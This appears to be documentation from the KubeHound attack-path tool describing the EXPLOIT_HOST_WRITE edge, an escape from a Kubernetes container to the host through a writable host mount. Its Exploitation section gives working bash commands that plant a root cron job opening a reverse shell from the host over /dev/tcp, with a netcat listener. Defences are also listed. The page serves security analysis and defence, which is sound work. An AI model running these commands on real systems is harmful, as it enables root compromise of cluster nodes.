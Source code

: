 # EXPLOIT_HOST_WRITE

Exploit an arbitrary write from a sensitive host path mounted into the container to gain execution on the host.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

If a sensitive host directory is mounted in a container with write permissions there are a huge variety of techniques to achieve execution within a container. Given the array of techniques available we choose to assume that any writeable mount in a container is exploitable unless it corresponds to an entry in the ["known-good" list](../../pkg/kubehound/graph/edge/exploit_host_write.go#:~:text=SafeWriteMountList) of mounts. For illustration purposes we will consider an escape to host via creating a cron job to launch a reverse shell as the host's superuser if the host `/etc` directory is mounted with write permissions.

## Prerequisites

Execution within a container with a sensitive host directory mounted with write permissions.

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_HOST_WRITE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)

## Exploitation

Assuming the `/etc/cron.d` directory or any parent is mounted with write access, we can achieve execution on the host as follows. First, resolve the container ip address:

```bash
CONTAINER_ADDRESS=$(ifconfig eth0  | grep inet | cut -d: -f2 | awk '{ print $2}')
```

Then, create a cronjob to trigger a reverse shell connection from the host to our container:

```bash
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo -n "(hostname) " >> /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo "(id)\" >& /dev/tcp/${CONTAINER_ADDRESS}/1337 0>&1'" >> /host-etc/cron.d/breakout
netcat -l -p 1337 2>&1
```

## Defences

### Monitoring

+ Leverage cloud workload security solutions to monitor for malicious activity on the host

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [ExploitHostWrite](../../pkg/kubehound/graph/edge/exploit_host_write.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
+ [Atomic Red Team T1611](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1611/T1611.md)

